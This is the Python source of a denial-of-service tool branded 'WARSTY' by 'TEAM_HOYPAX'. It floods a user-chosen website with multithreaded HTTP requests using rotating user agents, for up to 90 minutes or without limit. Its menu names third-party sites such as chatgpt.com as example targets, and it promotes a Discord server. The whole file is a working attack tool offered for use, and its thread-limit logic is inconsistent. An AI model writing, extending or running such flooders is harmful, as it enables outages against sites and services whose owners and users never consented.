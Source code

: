 import requests
import threading
import time
import random
import os
import re

# ASCII Sanat ve Başlık
ascii_art = """
   ____  _   _  ____  _____  _   _ 
  / ___|| | | ||  _ \|  ___|| | | |
 | |  _ | |_| || |_) | |_   | |_| |
 | |_| ||  _  ||  _ <|  _|  |  _  |
  \____||_| |_||_| \_\_|    |_| |_| 
       WARSTY[607]
       |X| DoS Tool by TEAM_HOYPAX
"""

# Kullanici-Agent Listesi (Rastgele)
user_agents = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15) AppleWebKit/605.1",
    "Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36"
]

def clear_screen():
    os.system('cls' if os.name == 'nt' else 'clear')

def attack(target, method, duration):
    headers = {"User-Agent": random.choice(user_agents)}
    start_time = time.time()
    while time.time() - start_time < duration:
        try:
            if not target.startswith(('http://', 'https://')):
                target = 'https://' + target
            response = requests.request(method, target, headers=headers, timeout=5)
            print(f"Request sent: {target} - Method: {method} - Status: {response.status_code}")
            time.sleep(0.1)
        except Exception as e:
            print(f"Error: {target} - Error: {str(e)}")
            break

def main_menu():
    while True:
        clear_screen()
        print(ascii_art)
        print("=> Dos")
        print("=> Options")
        print("=> Time")
        print("=> Discord")
        choice = input("Enter your choice: ").strip().lower()

        if choice == "dos":
            target = input("Enter target site (e.g., localhost or chatgpt.com): ")
            return "target", target
        elif choice == "options":
            clear_screen()
            print(ascii_art)
            print("Available methods:")
            print("1. GET")
            print("2. POST")
            print("3. HEAD")
            method_choice = input("Select method (1-3): ").strip()
            methods = {"1": "GET", "2": "POST", "3": "HEAD"}
            return "method", methods.get(method_choice, "GET")
        elif choice == "time":
            clear_screen()
            print(ascii_art)
            duration_input = input("Enter duration (e.g., 33:09 or infinite_time minutes, max 90): ").strip()
            if duration_input.lower() == "infinite_time":
                return "duration", float('inf')
            try:
                match = re.match(r"(\d+):(\d+)", duration_input)
                if match:
                    minutes, seconds = map(int, match.groups())
                    duration = minutes * 60 + seconds
                else:
                    duration = int(duration_input) * 60
                if duration > 90 * 60:
                    print("Max duration is 90 minutes!")
                    return "duration", 15 * 60
                return "duration", duration
            except ValueError:
                print("Invalid format! Using default 15 minutes.")
                return "duration", 15 * 60
        elif choice == "discord":
            print("Join our Discord: discord.gg/wartsy")
            input("Press Enter to continue...")
            return None, None
        else:
            print("Invalid choice! Try again.")

def main():
    target = None
    method = "GET"
    duration = 15 * 60  # Varsayılan 15 dakika

    while True:
        menu_result = main_menu()
        if menu_result is None:
            continue
        choice_type, value = menu_result
        if choice_type == "target":
            target = value
        elif choice_type == "method":
            method = value
        elif choice_type == "duration":
            duration = value

        if target is None:
            print("Please set a target first!")
            continue

        thread_count = int(input("Enter thread count (5-10): "))
        if thread_count > 10000:
            thread_count = 10000
            print("More than 1000 threads is dangerous, set to 1000!")

        threads = []
        for _ in range(thread_count):
            t = threading.Thread(target=attack, args=(target, method, duration))
            t.start()
            threads.append(t)

        print(f"Attack started on {target} with {thread_count} threads for {duration/60 if duration != float('inf') else 'infinite'} minutes...")
        time.sleep(duration if duration != float('inf') else 300)
        print("Attack stopped!")

        if input("Press Enter to restart or 'x' to exit: ").lower() == 'x':
            break

if __name__ == "__main__":
    main()

